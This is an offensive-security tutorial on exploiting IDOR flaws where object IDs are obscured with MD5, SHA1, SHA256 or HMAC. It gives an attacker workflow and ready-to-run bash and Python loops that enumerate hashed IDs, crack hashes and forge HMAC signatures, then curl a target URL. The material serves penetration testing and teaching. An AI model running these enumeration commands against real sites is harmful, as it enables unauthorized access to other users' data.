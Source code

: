 ```yaml
---
title: 'Hashed Parameter: Exploiting IDOR in Web Security'
description: Explore how attackers exploit hashes in URLs to bypass access controls
  and access sensitive objects using IDOR vulnerabilities.
keywords:
- hashed parameters
- IDOR vulnerabilities
- hash functions
- web security
- MD5
- SHA1
- SHA256
- access control
- security exploitation
---
```


# Hashed Parameter

## Context

This article explores the exploitation of Insecure Direct Object Reference (IDOR) vulnerabilities where object references in web applications are obfuscated using hash functions. Assumed knowledge includes an understanding of hash functions, object references, and basic web security principles, especially concerning IDOR vulnerabilities.

## Theory

### Hashed Parameters as Object References

In many web applications, object references such as user IDs or resources are obfuscated using hash functions before being included in URLs or API requests. A hashed parameter is essentially this obfuscated reference. While the intention is to conceal direct identifiers, hashing alone does not provide actual access control, making it possible to discover these values under certain conditions. If a hash is predictable or can be reversed, attackers can reconstruct valid references, leading to unauthorized access to sensitive objects.

### Predictability and Weaknesses in Hashing Schemes

Hash functions like MD5, SHA1, and even SHA256 are often used because they are fast, but they are susceptible to brute-force attacks or computational-heavy but feasible attacks using rainbow tables, especially when their input domain is small or predictable. When these hashes are used without proper salting or with weak or leaked keys, they become even more susceptible to attacks. Understanding these weaknesses is crucial for exploiting hashed parameters effectively.

### Attacker Workflow for Hashed Parameter IDOR

The workflow for an attacker exploiting hashed parameter vulnerabilities typically involves several steps:

- **Identify the hashed parameter** in the URL or request body.
- **Determine the hash algorithm** being used based on common characteristics, such as string length.
- **Generate candidate IDs**, and hash these candidates using the suspected function.
- **Substitute hashed values into requests** and observe responses for access permissions.

```mermaid
flowchart TD
    A[Identify hashed parameter] --> B[Determine hash algorithm]
    B --> C[Generate candidate IDs]
    C --> D[Hash candidates]
    D --> E[Send requests with hashed values]
    E --> F{Access granted?}
    F -- Yes --> G[IDOR confirmed]
    F -- No --> H[Repeat with new candidates]
```

## Practice

### Brute-Forcing Predictable Hashed Parameters (MD5/SHA1/SHA256)

- Identify the hashed parameter in a request URL or body. Look for parameters that appear as a sequence of hexadecimal characters (e.g., 32, 40, or 64 chars for MD5, SHA1, or SHA256, respectively).

- Determine likely hash algorithm based on its length and context. 

- Execute the following command to generate MD5 hashes for candidate IDs ranging from 1 to 1000:

    ```bash
    for id in $(seq 1 1000); do echo -n $id | md5sum | awk '{print $1}'; done > md5_candidates.txt
    ```

- Test each hashed value for unauthorized access with:

    ```bash
    while read hash; do curl -s 'https://target/app/resource?id='$hash; done < md5_candidates.txt
    ```

By following these steps, you can achieve access to objects by predicting hashed IDs and determining valid ones.

### Rainbow Table Attack on Hashed Parameters

- Obtain a rainbow table corresponding to the suspected hashing algorithm.

- Use the rtcrack command to attempt reversing a hash:

    ```bash
    rtcrack -h <hash_value> -t <rainbow_table_file>
    ```

- Test access with the recovered hash value:

    ```bash
    curl -s 'https://target/app/resource?id=<recovered_hash>'
    ```

This method effectively bypasses access controls set by weak hashes by leveraging precomputed hash-to-value mappings.

### HMAC Hashed Parameter Guessing

- Identify if HMAC is used in parameters such as `id=123&sig=<hmac>`. These signatures are used for signing object references.

- If possible, attempt to guess or brute-force weak HMAC keys:

    ```python
    import hmac, hashlib
    key = b'secret'
    for id in range(1,1000):
        sig = hmac.new(key, str(id).encode(), hashlib.sha1).hexdigest()
        print(f'https://target/app/resource?id={id}&sig={sig}')
    ```

- Validate access using the generated HMAC signatures with:

    ```bash
    curl -s 'https://target/app/resource?id=42&sig=<generated_sig>'
    ```

In this scenario, successfully forging valid HMAC signatures with weak keys provides unauthorized access to resources.

## Tools

- **curl**
- **rtcrack**
- **hashcat**
- **Burp Suite** 

These tools are integral for executing the techniques described, supporting tasks such as sending HTTP requests, cracking hashes, and testing web application security.